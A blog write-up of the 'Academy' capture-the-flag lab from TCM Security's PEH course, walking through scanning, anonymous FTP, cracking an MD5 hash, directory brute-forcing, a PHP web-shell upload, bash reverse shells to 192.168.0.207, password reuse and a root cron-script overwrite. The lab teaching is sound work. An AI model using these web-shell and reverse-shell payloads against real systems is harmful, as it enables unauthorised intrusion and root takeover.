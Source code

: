 ```yaml
---
title: "Academy Box - PEH Capstone TCM Security"
description: "Solution for the Academy Box of Capstone challenges from the PEH course of TCM Security."
summary: "Solution for the Academy Box of Capstone challenges from the PEH course of TCM Security."
date: 2024-02-04
draft: false
author: "Aftab Sama" # ["Me", "You"] # multiple authors
tags: ["Web", "CTF", "Linux"]
canonicalURL: ""
showToc: false
TocOpen: false
TocSide: 'right'  # or 'left'
# weight: 1
# aliases: ["/first"]
hidemeta: false
comments: true
disableHLJS: true # to disable highlightjs
disableShare: true
hideSummary: false
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
# UseHugoToc: true
---
```


------------------------

> Writeup for Academy machine challenge from PEH course of TCM Security

Challenge File: https://drive.google.com/drive/folders/1VXEuyySgzsSo-MYmyCareTnJ5rAeVKeH


Run `sudo netdiscover -r 192.168.0.0/24` before starting the target VM to capture all available devices in subnet \
now start the target VM and wait for new machine IP entry it will be the IP of our target VM.

Before starting the target VM.

![image](md/264f4aa5-62fd-47d0-bb51-88a1fe8211e7.webp)

After starting the target VM.

![image](md/48ec1846-d9e4-4f40-a996-91b68db451f8.webp)


Now that we have the target IP `192.168.0.113` let's run the `nmap`.

```bash                                                                                                           
┌──(Jack㉿Sparrow)-[~/Downloads]
└─$  nmap -sC -sV -T5 192.168.0.113 -oA nmap_Academy.txt -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-02 13:58 EST
Warning: 192.168.0.113 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.0.113
Host is up (0.0050s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE    SERVICE       VERSION
21/tcp   open     ftp           vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.0.207
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open     ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c744588690fde4de5b0dbf078d055dd7 (RSA)
|   256 78ec470f0f53aaa6054884809476a623 (ECDSA)
|_  256 999c3911dd3553a0291120c7f8bf71a4 (ED25519)
80/tcp   open     http          Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
1046/tcp filtered wfremotertm
1055/tcp filtered ansyslmd
1434/tcp filtered ms-sql-m
2038/tcp filtered objectmanager
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds
```


Here we see that port `21,22,80` are open. 

In port 21 Anonymous FTP login is allowed  \
to see what files are present in this ftp we can open `ftp://192.168.0.113/` in windows File Explorer or we can also use curl

![image](md/94033cfd-6173-49d2-bc31-18b3621d137f.webp)

![image](md/8028de5e-668e-4123-8aef-42e27cb07c85.webp)


The note says `The StudentRegno number is what you use for login` which is `10201321` and
we have one password hash `cd73502828457d15655bbd7a63fb0bc8`. use tools like https://crackstation.net/ to crack the hash. \
This is md5 of `student`. \
now we have login credentials `10201321:student` note this for now and let's move to http site.

<br>

`http://192.168.0.113/` is Apache2 Debian Default Page.

![image](md/d0094763-f520-4028-a338-0aca0d6cb604.webp)


There is nothing much to see in this default page so let's do the directory brute force.


```bash
┌──(Jack㉿Sparrow)-[~]
└─$ dirsearch -u http://192.168.0.113/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt 

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )
                                                                                                                                                                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 141672

Output File: /home/kali/.dirsearch/reports/192.168.0.113/-_24-02-04_03-17-49.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-02-04_03-17-49.log

Target: http://192.168.0.113/

[03:17:49] Starting: 
[03:18:19] 301 -  319B  - /phpmyadmin  ->  http://192.168.0.113/phpmyadmin/
[03:19:57] 301 -  316B  - /academy  ->  http://192.168.0.113/academy/       
                                                                              
Task Completed
```


We found the `/phpmyadmin/` and `/academy/` directories on the `http://192.168.0.113/academy/` page we have one login form.

![image](md/8dcd96ba-f63a-4524-9ea6-95156c8ce0df.webp)


Let's try the login credentials `10201321:student` that we found previously from ftp note.

![image](md/a36b56d4-987e-4e97-834f-f1f0fc105bf4.webp)


It worked we are now logged in. \
On the My Profile page we have file upload functionality.

try uploading simple php shell `<?php system($_REQUEST['cmd']); ?>` and it is not blocked we now have the ability to execute commands on server.

![image](md/08e0c9d1-2522-4e8a-9fc3-4a19c13bc969.webp)


we can get reverse shell by this payload `cmd=bash+-c+"bash+-i+>%26+/dev/tcp/192.168.0.207/9001+0>%261"` \
reference: https://www.revshells.com

![image](md/4dc9b13a-e0a3-4ff4-82fd-5a32fb2b0270.webp)

![image](md/4cf54a48-a797-4c62-ae47-f0e3a7fa91a5.webp)


In the config.php file we have the mysql_password `My_V3ryS3cur3_P4ss` and in the ftp note we show line `I told him not to use the same password everywhere` which implies 
that user Grimmie is reusing the same password so we can try to use this password to switch to user Grimmie.

![image](md/a6efd8be-7132-4ee9-86b2-b44bcb917ba6.webp)


looking at crontab we notice that `/home/grimmie/backup.sh` file is running as root and we can modify this file to get root access.

![image](md/ee82ccab-380c-485d-855c-247e8e2e7dcc.webp)


Reverse shell payload to get shell as root: 

`echo 'bash -c "bash -i >& /dev/tcp/192.168.0.207/9002 0>&1"' > backup.sh`

![image](md/0c2c4b55-7951-4637-ab07-86077b1ce395.webp)

![image](md/b1a801aa-7b03-4d4d-849a-6a7532c95b22.webp)


Flag:

![image](md/50dbf9b2-9236-4656-95ff-e7747b222a6c.webp)

Happy Hacking

